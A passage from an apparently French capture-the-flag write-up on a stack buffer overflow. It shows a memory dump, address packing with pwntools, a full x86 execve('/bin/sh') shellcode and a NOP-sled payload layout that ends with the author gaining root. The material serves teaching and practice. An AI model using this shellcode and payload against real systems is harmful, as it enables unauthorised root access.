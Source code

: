 ```
0xbffff670:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff680:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
```
0xbffff670 est l'adresse, pour la convertir j'utilise la lib pwn:
```
Python 2.7.18 (default, Apr 20 2020, 20:30:41)                                              
[GCC 9.3.0] on linux2                                                                       
Type "help", "copyright", "credits" or "license" for more information.                      
>>> from pwn import *                                                                       
>>> p32(0xbffff670)
'p\xf6\xff\xbf' 
```

Le shellcode quand a lui est un code tous fait que l'on trouve facilement sur le net. C'est d'ailleur le meme que Pixis dans son super tutoriel sur le <a href="https://beta.hackndo.com/buffer-overflow/">BOF</a>.

Shellcode:
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Donc on a notre payload sous la forme suivante:
```
[Des nop (\x90)] [shellcode] [adresse des nop]
^__________________________________|
```

Nous sommes root, challenge terminé


